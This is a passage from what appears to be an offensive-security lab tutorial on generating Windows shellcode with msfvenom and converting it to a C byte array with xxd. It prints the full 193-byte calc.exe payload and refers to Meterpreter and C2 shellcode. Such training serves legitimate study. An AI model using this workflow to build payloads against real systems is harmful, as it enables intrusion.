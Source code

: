 The Metasploit framework has many other shellcode formats and types for all your needs. We strongly suggest experimenting more with it and expanding your knowledge by generating different shellcodes.

The previous example shows how to generate shellcode and execute it within a target machine. Of course, you can replicate the same steps to create different types of shellcode, for example, the Meterpreter shellcode.

# Generate Shellcode from EXE files

Shellcode can also be stored in **`.bin`** files, which is a raw data format. In this case, we can get the shellcode of it using the **`xxd -i`** command.

C2 Frameworks provide shellcode as a raw binary file **`.bin`**. If this is the case, we can use the Linux system command **`xxd`** to get the hex representation of the binary file. To do so, we execute the following command: **`xxd -i`**.

Let's create a raw binary file using msfvenom to get the shellcode:

Generate a Raw shellcode to Execute calc.exe

```
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin/tmp/example.bin: data
```

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
```

And run the **`xxd`** command on the created file:

Get the shellcode using the xxd command

```bash
xxd -i /tmp/example.bin
```

```
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```
